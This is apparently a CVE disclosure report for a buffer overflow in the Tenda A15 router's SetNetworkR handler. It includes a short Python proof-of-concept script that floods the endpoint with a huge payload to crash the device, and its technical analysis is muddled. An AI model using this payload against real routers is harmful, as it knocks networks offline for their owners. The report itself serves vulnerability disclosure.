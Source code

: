 # CVE submission
Affected products and versions: Tenda A15 V15.13.07.13

Affected object type: Network device (router)

Vulnerability type: buffer overflow

Vulnerability URL: http://xxx/goform/SetNetworkR

Vulnerability description: Tengda router A15 V15.13.07.13 has a buffer overflow vulnerability, which can be exploited by an attacker to cause a denial of service.

Vulnerability Analysis Process:
Router Firmware Download:https://www.tendacn.com/download/detail-3187.html
![alt text](image.png)

The vulnerability occurs in the formSetNetworkR function
![alt text](image-1.png)
The program obtains the parameter "HTTP/1.1 200 OKrnContent-Length:%drnContent-type: text/plain; charset=utf-8rnPrag ma: no-cachernCache-Control: no-cachernrn", and then pass the user's input into the websDone function, which will handle the characters entered by the user, and if the input value is too large, it will not be processed.

![alt text](image-2.png)
Cross-locate the formArpNerworkSet function route to SetNetworkR

Attack payloads：
import requests

url = "http://192.168.85.160/goform/SetNetworkR"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)

Repetition：
![alt text](image-3.png)
![alt text](image-4.png)
Run the script
![alt text](image-5.png)
CPU occupancy
![alt text](image-6.png)
The router crashes, the website cannot be accessed, and the access denial attack succeeds

Vulnerability reproduction video:
Link: https://pan.baidu.com/s/1HX0p1F342ZmpUZNdoWCkyw 
Extraction code: rjvp
